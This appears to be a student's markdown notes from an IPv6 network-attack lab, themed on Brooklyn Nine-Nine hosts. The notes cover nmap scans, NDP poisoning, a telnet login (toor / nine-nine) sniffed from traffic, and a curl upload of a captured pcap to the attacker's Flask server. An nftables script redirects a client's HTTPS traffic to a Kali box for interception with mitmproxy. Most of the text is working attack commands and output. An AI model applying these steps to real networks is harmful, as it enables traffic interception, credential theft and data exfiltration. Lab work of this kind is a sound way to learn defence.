



### Host discovery
nmap -6 -sn -n -T4 --max-retries 1 --host-timeout 5s 2001:db8:1::10/64 -oN output.txt



```
Nmap scan report for 2001:db8:1::1
Host is up (0.00082s latency).
Nmap scan report for 2001:db8:1::10
Host is up (0.0013s latency).
Nmap scan report for 2001:db8:1::20
Host is up (0.0014s latency).
```

#### ip neigh
```
ip neigh
fe80::20c:29ff:fedd:52d4 dev eth0 lladdr 00:0c:29:dd:52:d4 STALE 
2001:db8:1::1 dev eth0 lladdr 00:0c:29:fc:44:db router STALE 
fe80::20c:29ff:fefc:44db dev eth0 lladdr 00:0c:29:fc:44:db router STALE 
2001:db8:1::20 dev eth0 lladdr 00:0c:29:dd:52:d4 STALE 
```

### Aggressive Scan

```
nmap -6 -A 2001:db8:1::20 2001:db8:1::1 -oN aggressive-scan.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-24 13:05 CEST
Nmap scan report for santiago.b99.com (2001:db8:1::20)
Host is up (0.0016s latency).
All 1000 scanned ports on santiago.b99.com (2001:db8:1::20) are in ignored states.
Not shown: 1000 closed tcp ports (conn-refused)

Nmap scan report for b99.com (2001:db8:1::1)
Host is up (0.0017s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
23/tcp open  telnet
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port23-TCP:V=7.94SVN%I=7%D=4/24%Time=6628E768%P=x86_64-pc-linux-gnu%r(N
SF:ULL,15,"\xff\xfb%\xff\xfb&\xff\xfd\x18\xff\xfd\x20\xff\xfd#\xff\xfd'\xf
SF:f\xfd\$")%r(GenericLines,15,"\xff\xfb%\xff\xfb&\xff\xfd\x18\xff\xfd\x20
SF:\xff\xfd#\xff\xfd'\xff\xfd\$")%r(tn3270,21,"\xff\xfb%\xff\xfb&\xff\xfd\
SF:x18\xff\xfd\x20\xff\xfd#\xff\xfd'\xff\xfd\$\xff\xfe\x19\xff\xfc\x19\xff
SF:\xfd\0\xff\xfb\0")%r(GetRequest,15,"\xff\xfb%\xff\xfb&\xff\xfd\x18\xff\
SF:xfd\x20\xff\xfd#\xff\xfd'\xff\xfd\$")%r(RPCCheck,15,"\xff\xfb%\xff\xfb&
SF:\xff\xfd\x18\xff\xfd\x20\xff\xfd#\xff\xfd'\xff\xfd\$")%r(Help,15,"\xff\
SF:xfb%\xff\xfb&\xff\xfd\x18\xff\xfd\x20\xff\xfd#\xff\xfd'\xff\xfd\$")%r(S
SF:IPOptions,15,"\xff\xfb%\xff\xfb&\xff\xfd\x18\xff\xfd\x20\xff\xfd#\xff\x
SF:fd'\xff\xfd\$")%r(NCP,15,"\xff\xfb%\xff\xfb&\xff\xfd\x18\xff\xfd\x20\xf
SF:f\xfd#\xff\xfd'\xff\xfd\$");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 2 IP addresses (2 hosts up) scanned in 54.53 seconds
```

### NDP Poisoning


### TELNET - follow tcp stream

username: toor
password: nine-nine

### b99


old pcap files?
gleiche infos wie wenn man neue erstellt

### Routing - not possible no ip6tables
redirection routes on router to 2001:db8::20

```
# Create a new chain to handle redirected traffic
ip6tables -t mangle -N DIVERT
ip6tables -t mangle -A PREROUTING -p tcp -m socket -j DIVERT
ip6tables -t mangle -A DIVERT -j MARK --set-mark 1
ip6tables -t mangle -A DIVERT -j ACCEPT

# Setup routing for marked packets to a specific interface or address
ip -6 rule add fwmark 1 lookup 100
ip -6 route add local 2001:db8:1::/64 dev lo table 100

```

## Transfer files python webserver
```python
# save this as app.py
from flask import Flask, request, jsonify

app = Flask(__name__)

@app.route('/upload', methods=['POST'])
def upload_file():
    file = request.files['file']
    if file:
        filename = file.filename
        file.save('/path/to/save/' + filename)  # Adjust the path accordingly
        return jsonify({'status': 'file uploaded'})
    return jsonify({'status': 'no file found'})

if __name__ == '__main__':
    app.run(host='::', port=8000, debug=True)
```

upload mit curl
```
curl -F "file=@/home/toor/holtwuntch.pcap" http://[2001:db8:1::10]:8000/upload
```

### nmap scan wuntch & holt
```
nmap -A -6 2001:db8:fff2::10 2001:db8:fff3::10
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-24 18:05 CEST
Nmap scan report for wuntch.b99.com (2001:db8:fff2::10)
Host is up (0.011s latency).
All 1000 scanned ports on wuntch.b99.com (2001:db8:fff2::10) are in ignored states.
Not shown: 1000 closed tcp ports (conn-refused)

Nmap scan report for holt.b99.com (2001:db8:fff3::10)
Host is up (0.011s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
80/tcp  open  http     nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_http-title: Did not follow redirect to https://holt.b99.com/
443/tcp open  ssl/http nginx 1.22.1
| tls-alpn: 
|   http/1.1
|   http/1.0
|_  http/0.9
|_http-server-header: nginx/1.22.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=holt.b99.com/organizationName=NYPD/stateOrProvinceName=New York/countryNa
| Not valid before: 2024-04-17T22:58:11
|_Not valid after:  2025-04-17T22:58:11
|_http-title: 403 Forbidden

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 2 IP addresses (2 hosts up) scanned in 12.88 seconds
```

### Copy mitmproxy to router

to many dependencies

### nftables regel auf b99 um 443 an jake zu senden
```bash
#!/bin/bash

# enable ipv4 forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward
# enable ipv6 forwarding
echo 1 > /proc/sys/net/ipv6/conf/all/forwarding

# kernel modules
modprobe nf_nat_ftp
modprobe nf_conntrack_ftp

# Check if modules are loaded
if lsmod | grep -q nf_nat_ftp; then
    echo "nf_nat_ftp module is loaded."
else
    echo "nf_nat_ftp module is NOT loaded."
fi

if lsmod | grep -q nf_conntrack_ftp; then
    echo "nf_conntrack_ftp module is loaded."
else
    echo "nf_conntrack_ftp module is NOT loaded."
fi


# Define variables
KALI_IP="[2001:db8:1::10]"
CLIENT1_IP="[2001:db8:fff2::10]"
CLIENT2_IP="[2001:db8:fff3::10]"

# Flush existing rules and tables
nft flush ruleset

# Define the table for the firewall
nft add table inet b99fw
nft add table inet nat

# Add base chains
nft add chain inet b99fw input { type filter hook input priority 0 \; policy accept \; }
nft add chain inet b99fw forward { type filter hook forward priority 0 \; policy accept \; }
nft add chain inet b99fw output { type filter hook output priority 0 \; policy accept \; }
# nat
nft add chain inet nat prerouting { type nat hook prerouting priority -100 \; }
nft add chain inet nat postrouting { type nat hook postrouting priority 100 \; }


# Allow loopback traffic
nft add rule inet b99fw input iif lo accept
nft add rule inet b99fw output oif lo accept

# Allow established connections
nft add rule inet b99fw input ct state established,related accept
nft add rule inet b99fw output ct state established,related accept
nft add rule inet b99fw forward ct state established,related accept

# Redirect traffic from CLIENT1_IP to KALI_IP on ports 80 and 443
nft add rule inet nat prerouting iifname ens36 ip6 saddr $CLIENT1_IP tcp dport 80 dnat to $KALI_IP:80
nft add rule inet nat prerouting iifname ens36 ip6 saddr $CLIENT1_IP tcp dport 443 dnat to $KALI_IP:443

# Redirect traffic from CLIENT2_IP to KALI_IP on ports 80 and 443
# nft add rule inet nat postrouting ip6 saddr $CLIENT2_IP tcp dport {80, 443} dnat to $KALI_IP

# Save the rules
nft list ruleset > /etc/nftables.conf
```

simpler:
```bash
#!/bin/bash
nft flush ruleset
nft add table inet nat
nft add chain inet nat prerouting { type nat hook prerouting priority -100 \; }
nft add rule inet nat prerouting iifname ens36 ip6 saddr [2001:db8:fff2::10] tcp dport 443 dnat to [2001:db8:1::10]:443
```


### mitmproxy
```bash
sudo mitmproxy --showhost --listen-port 443
```

### wget 
```bash
wget --no-check-certificate https://[2001:db8:fff3::10]/holt_wuntch_hell_meme.png
wget --no-check-certificate https://holt.b99.com/holt_wuntch_hell_meme.png    
```

